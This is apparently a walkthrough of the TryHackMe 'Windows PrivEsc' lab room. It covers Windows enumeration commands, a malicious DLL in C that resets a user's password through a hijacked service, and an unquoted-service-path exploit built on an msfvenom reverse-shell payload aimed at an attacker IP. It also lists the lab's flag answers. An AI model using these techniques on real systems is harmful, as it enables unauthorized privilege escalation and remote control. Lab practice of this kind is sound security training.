 ```yaml
---
description: 'This is my walkthrough for the TryHackMe Room: Windows PrivEsc.'
---
```


# Windows PrivEsc

This room can be found [here](https://tryhackme.com/room/winprivesc). This room covers a few methods of escalating from a normal user to the root user on a system.

## Task 2

### Question 2: List users on the target system. One of them resembles a flag.

`THM-17213` - Running `net users` will give us our answer

![](<../../../.gitbook/assets/image (378).png>)

### Question 3: What is the OS version of the target machine?

`10.0.17763 N/A Build 17763` - Running `systeminfo` will give us our answer

![](<../../../.gitbook/assets/image (49).png>)

### Question 4: When was security update KB4562562 installed?

`6/10/2020` - Following the command the room gives, `wmic qfe get Caption,Description,HotFixID,InstalledOn` but piping in the string we want to find will make this MUCH easier. `wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr "KB4562562"`

![](<../../../.gitbook/assets/image (236).png>)

### Question 5: What is the state of Windows Defender?

`STOPPED` - Running `sc query windefend` will give us our answer

![](<../../../.gitbook/assets/image (284).png>)

## Task 4

### Question 1: What version of a Fitbit application can you see installed?

`2.0.1.6782` - Following the example command the room gives us but piping to search will help.

`wmic product get name,version,vendor | findstr "Fitbit"`

### Question 2: What kind of vulnerability seems to affect the Fitbit application?

`Unquoted Service Path` - Having to do some minor research on this one, when going to Exploit.db we can search for "Fitbit" and find [this link](https://www.exploit-db.com/exploits/40482) which give us our answer.

### Question 3: What version of FoxitReader is installed on the target system?

`9.0.1.1049` - I admittedly had to go through the explorer via GUI to find this.

![](<../../../.gitbook/assets/image (388).png>)

## Task 5

First we are asked to replicate the attacks the room explained. So it asks us to create to malicious DLL file, and use it to modify the password for the user Jack so we can login as him.

```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user Jack Passwors123");
        ExitProcess(0);
    }
    return TRUE;
}
```

We add the above code into a .c file then we can compile it.

`x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`

![](<../../../.gitbook/assets/image (68).png>)

Now we get the file onto the machine via whatever means we can. I'll be adding it by using a simple python web server. `python3 -m http.server` onmy attacker machine.

![](<../../../.gitbook/assets/image (111).png>)

Now we stop and start the DLL service with: `sc stop dllsvc` followed by `sc start dllsvc`

![](<../../../.gitbook/assets/image (118).png>)

### Question 3: Login with Jack's account (the new password you have set). What is the content of the flagdll.txt file?

`THM-8377492093` - Now that we have changed Jacks password, we can switch to his user via commandline or remote desktop in. I went with commandline and just opened up powershell as jack.

![](<../../../.gitbook/assets/image (169).png>)

Now we find the file: `Get-ChildItem -Path C:\ -Recurse -File flagdll.txt -ErrorAction SilentlyContinue`

![](<../../../.gitbook/assets/image (385).png>)

Then we get the file contents: `Get-Content 'C:\Users\jack\Documents\flagdll.txt'`

![](<../../../.gitbook/assets/image (186).png>)

## Task 6

### Question 1: What is the full unquoted path of unquotedsvc

`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe` - So as the room suggests we can run `wmic service get name,displayname,pathname,startmode` but we can pip ewith `findstr` to make our search easier. `wmic service get name,displayname,pathname,startmode | findstr "unquotedsvc"`

![](<../../../.gitbook/assets/image (387).png>)

### Question 2: Go through subfolders in the unquotedsvc binary path. Which folder does the user have read and write privileges on?

`C:\Program Files\Unquoted Path Service\` - As the room tells us, accesschk64.exe is on the desktop, so running .\accesschk64.exe /accepteula -uwdq "C:\Program Files\\`Unquoted Path Service\"` We see our answer. We can write into the base directory of that.

![](<../../../.gitbook/assets/image (217).png>)

### Question 3: What would be the name of the executable you would place in that folder?

`common.exe` - I had to look this up as I found no clear indicator as why this file had to be named this

### Question 4: Obtain Administrator privileges on the target machine. What is the content of the flagUSP.txt file?

`THM-636729273483` - The room gives us an example payload to create a file to upload to the system. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.68.77 LPORT=4444 -f exe > common.exe`

![](<../../../.gitbook/assets/image (176).png>)

Now we start metasploit and get our listener ready `msfconsole -q`

![](<../../../.gitbook/assets/image (181).png>)

We can follow the rooms example just be sure to change the IP and PORT of YOUR machine you used when making the payload.

We get the file onto the target in whatever way we can, I'll again be using python3 webserver

![](<../../../.gitbook/assets/image (20) (1).png>)

With our file now on the target, we can start the service `sc start unquotedsvc`

![](<../../../.gitbook/assets/image (182).png>)

We should now have our shell

![](<../../../.gitbook/assets/image (131).png>)

From here there are multiple ways we can find our file and flag but for the sake of brevity we will just stick with windows and methods we have already used.

We'll move to powershell with `powershell.exe`, then find the file we want, `Get-ChildItem -Path C:\ -Recurse -File flagUSP.txt -ErrorAction SilentlyContinue`,  then get the contents of the file, `Get-Content 'C:\Users\Cora\Documents\flagUSP.txt'`

![](<../../../.gitbook/assets/image (360).png>)

![](<../../../.gitbook/assets/image (352).png>)
